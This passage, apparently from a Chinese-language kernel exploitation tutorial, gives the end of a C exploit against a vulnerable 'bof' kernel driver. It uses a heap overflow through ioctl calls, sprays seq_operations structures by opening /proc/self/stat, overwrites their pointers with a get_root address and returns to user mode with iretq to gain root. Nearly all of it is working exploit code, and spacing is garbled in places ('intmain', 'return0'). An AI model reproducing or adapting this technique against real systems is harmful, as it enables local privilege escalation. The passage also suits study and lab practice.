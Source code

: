 ```
"push user_cs;"
"push user_rip;"
"iretq;"
);
}

intmain(){
    save_status();

int bof_fd = open("dev/bof", O_RDWR);
if(bof_fd <0){
puts("[-] Failed to open bof.");
exit(-1);
}

struct param p ={0x20,malloc(0x20),0};
for(int i =0; i <0x40; i++){
        ioctl(bof_fd, BOF_MALLOC,&p);
}
memset(p.buf,'\xff', p.len);
    ioctl(bof_fd, BOF_EDIT,&p);
// 大量喷洒 seq_ops 结构体。
int seq_fd[SEQ_NUM];
for(int i =0; i < SEQ_NUM; i++){
        seq_fd[i]= open("/proc/self/stat", O_RDONLY);
if(seq_fd[i]<0){
puts("[-] Failed to open stat.");
}
}
puts("[*] seq_operations spray finished.");

// 通过溢出，将附近 seq_ops 的指针修改为 get_root地址。
    p.len = DATA_SIZE;
    p.buf =malloc(DATA_SIZE);
    p.idx =0;
for(int i =0; i < DATA_SIZE; i +=sizeof(size_t)){
*(size_t*)&p.buf[i]=(size_t) get_root;
}
    ioctl(bof_fd, BOF_EDIT,&p);
puts("[*] Heap overflow finished.");

for(int i =0; i < SEQ_NUM; i++){
        read(seq_fd[i], p.buf,1);
}

return0;
}
```  
  
[](http://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&chksm=c160f8e6f61771f0fec6a865b8f6f645128bd3f48035546980afeebcc974b4f76538c7561d55&scene=21#wechat_redirect)  
  
